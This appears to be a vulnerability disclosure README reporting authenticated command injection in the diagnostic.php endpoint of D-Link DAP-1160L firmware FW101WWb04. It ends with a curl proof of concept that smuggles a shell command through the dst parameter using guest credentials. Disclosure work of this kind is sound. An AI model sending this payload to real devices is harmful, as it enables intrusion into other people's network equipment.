


# DAP1160LA1_FW101WWb04_RCE

## Overview
The `/htdocs/web/diagnostic.php` endpoint in **D-Link DAP-1160L firmware version FW101WWb04** is vulnerable to authenticated OS command injection.

Manufacturer's website: http://www.dlink.com.cn/

Firmware download website: [ProductInfo.aspx?m=DAP-1160L](https://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DAP-1160L)

## Affected version
A1_FW101WWb04

## Vulnerability details
The vulnerable script handles ping diagnostics by passing user-supplied input from the `dst` POST parameter directly to the `set()` `xmldbc` function.

### PoC
curl -s http://ip:port/diagnostic.php \
      -u "guest:" \
      -d 'act=ping&dst=; echo PWNED > /pwned.txt; #'
      

